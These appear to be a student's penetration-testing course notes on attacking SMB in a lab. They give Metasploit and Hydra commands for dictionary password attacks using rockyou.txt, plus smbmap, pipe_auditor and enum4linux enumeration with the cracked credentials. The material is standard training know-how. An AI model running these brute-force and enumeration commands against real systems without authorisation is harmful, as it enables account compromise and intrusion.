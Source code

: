 - Most of what has been covered up till now in the course involves NULL logins, or anonymous logins, as they are more famously known as.
- But there are cases where such misconfigurations are not be found, in such scenarios we can use dictionary attacks with wordlists of known passwords to try to find the credentials in use.
- The most used wordlist in the course, and subsequently the exam will be rockyou.txt.

 SMB Dictionary Attacks using Metasploit
	- `msfconsole`
	- `use auxiliary/scanner/smb/smb_login`
	- `show options`
	- `set RHOSTS 192.125.26.3`
	- `set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt`
	- `set smbuser jane`
	- `show options`
	- `run`
	- `exit`

SMB Dictionary Attacks using Hydra
	- Decompressing the rockyou.txt wordlist file to use with Hydra: `gzip -d /usr/share/wordlists/rockyou.txt.gz`
	- Using Hydra to perform the dictionary attack: `hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.125.26.3 smb`
	- In Hydra, lowercase flags are used to specify unique values entered along with the command, like admin for username in the command above, and uppercase values are used to pass an input file to use instead.
	- The protocol to target for the attack needs to be specified in the command as well.

SMB User Access Permission Enumeration using smbmap
	- `smbmap -H 192.125.26.3 -u admin -p password1`

SMB is a protocol that can be used for many different services, the way services talk to one another through pipes, names pipes are pipes that are known. If we can get into SMB, there is a chance that we can get into other services that are piped through it.

SMB pipes enumeration using Metasploit Framework
	- `msfconsole'
	- `use auxiliary/scanner/smb/pipe_auditor`
	- `set smbuser admin`
	- `set smbpass password1`
	- `set RHOSTS 192.125.26.3`
	- `show options`
	- `run`

Enumerating user SIDs with admin privilege using enum4linux
	- `enum4linux -r -u "admin" -p "password1" 192.125.26.3`